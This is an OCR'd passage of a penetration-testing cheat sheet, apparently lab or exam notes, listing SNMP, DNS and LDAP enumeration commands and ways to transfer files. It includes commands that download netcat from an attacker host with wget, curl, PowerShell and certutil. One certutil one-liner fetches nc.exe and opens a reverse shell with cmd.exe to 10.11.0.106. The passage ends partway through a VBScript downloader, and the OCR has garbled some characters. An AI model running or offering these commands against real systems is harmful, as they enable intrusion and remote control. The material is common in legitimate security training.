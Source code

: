 > $ 1.3.6.1.2.1.25.1.6.0 System Processes  
> $ 1.3.6.1.2.1.25.4.2.1.2 Running Programs  
> $ 1.3.6.1.2.1.25.4.2.1.4 Processes Path  
> $ 1.3.6.1.2.1.25.2.3.1.4 Storage Units  
> $ 1.3.6.1.2.1.25.6.3.1.2 Software Name  
> $ 1.3.6.1.4.1.77.1.2.25 User Accounts  
> $ 1.3.6.1.2.1.6.13.1.3 TCP Local Ports

SNMP V3

> $ nmap -p 161 --script=snmp-info &gt; $ip $ default creds:  
> ▪ /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt

## DOMAIN

Leak DC hostname:

> $ noslookup  
> server 10.10.10.172  
> set type=ns  
> 10.10.10.172  
> 127.0.0.1

Nmap:

> $ nmap -p 53 --script=\*dns\* -vv -oN dns &gt; $ip

## LDAP/Active Directory

--Look for anonymous bind

> $ ldapsearch -x -b "dc=megabank,dc=local" "\*" -h &gt; $ip

## FILE TRANSFER

Simple Servers:

> $ python -m SimpleHTTPServer 80  
> $ python -m pyftpdlib -p 21 -w -d /tmp  
> $ ptftpd -p 69 -v eth0 /tmp  
> $ impacket-smbserver -username guest -password guest -smb2support share &gt; $\(pwd\) // Might need to remove -smb2support option

Tools:

> $ Linux & Windows \( Newer Windows versions only \)  
> ▪ wget [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -O nc.exe  
> ▪ curl [http://10.11.0.106/nc.exe](http://10.11.0.106/nc.exe) -o nc.exe  
> $ Windows \( Should work on most Windows versions\)  
> ▪powershell \(New-Object System.Net.WebClient\).DownloadFile\("[https://10.10.10.144/test.txt](https://10.10.10.144/test.txt)", "test.txt"\)  
> ▪net use Z: \\computer\_name\share\_name //Mount smb share  
> ▪ &gt; $pass= "guest" \| ConvertTo-SecureString -AsPlainText -Force $cred = New-Object System.Management.Automation.PsCredential\('guest', &gt; $pass\)  
> New-PSDrive -name guest -root \\10.10.15.53\share -Credential &gt; $cred -PSProvider "filesystem"  
> ▪certutil.exe -urlcache -split -f "[http://10.11.0.106:8000/nc.exe](http://10.11.0.106:8000/nc.exe)" nc.exe && nc.exe -nv 10.11.0.106 443 -e cmd.exe  
> ▪VBscript  
> → echo strUrl = WScript.Arguments.Item\(0\) &gt; wget.vbs  
> echo StrFile = WScript.Arguments.Item\(1\) &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 &gt;&gt; wget.vbs  
> echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 &gt;&gt; wget.vbs  
> echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts &gt;&gt; wget.vbs  
> echo Err.Clear &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  